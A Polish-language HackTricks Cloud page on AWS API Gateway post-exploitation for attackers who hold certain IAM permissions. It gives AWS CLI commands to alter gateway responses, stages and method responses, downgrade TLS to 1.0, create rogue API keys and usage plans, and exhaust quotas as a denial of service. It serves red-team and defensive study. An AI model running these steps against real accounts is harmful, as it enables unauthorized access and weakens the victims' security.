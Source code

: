 # AWS - Wykorzystanie po eksploatacji bramy API

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Brama API

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Dostęp do nieujawnionych interfejsów API

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą `com.amazonaws.us-east-1.execute-api`, odsłonić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń zezwalającą na wszystkie połączenia.\
Następnie z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego i w ten sposób wywołać bramę API, która wcześniej nie była ujawniona.

### Atak DoS na plany użytkowania

W sekcji **Wyliczanie** możesz zobaczyć, jak **uzyskać plan użytkowania** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użycia **miesięcznie**, możesz go **po prostu użyć i spowodować atak DoS**.

Klucz **API** musi być **dołączony** wewnątrz nagłówka **HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **modyfikować istniejącą odpowiedź bramy, aby zawierała niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają poufne informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Wyciek poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **modyfikować istniejący etap bramy API Gateway w celu przekierowania ruchu do innego etapu lub zmiany ustawień buforowania w celu uzyskania nieautoryzowanego dostępu do danych buforowanych**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Nieautoryzowany dostęp do danych z pamięci podręcznej, zakłócenie lub przechwycenie ruchu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **zmodyfikować odpowiedź metody istniejącej metody interfejsu API Gateway REST w celu dodania niestandardowych nagłówków lub szablonów odpowiedzi, które ujawnią poufne informacje lub wykonają złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Wyciek poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **modyfikować ustawienia interfejsu API Gateway REST w celu wyłączenia logowania lub zmiany minimalnej wersji TLS, co potencjalnie osłabia bezpieczeństwo interfejsu API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Oslabienie bezpieczeństwa interfejsu API, potencjalnie umożliwiające nieautoryzowany dostęp lub ujawnienie poufnych informacji.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący posiadający uprawnienia `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, powiązywać je z planami użycia, a następnie używać tych kluczy do nieautoryzowanego dostępu do interfejsów API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do zasobów interfejsu API, obejście kontroli bezpieczeństwa.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

<details>

<summary><strong>Zacznij od zera i stań się ekspertem w hakowaniu AWS dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
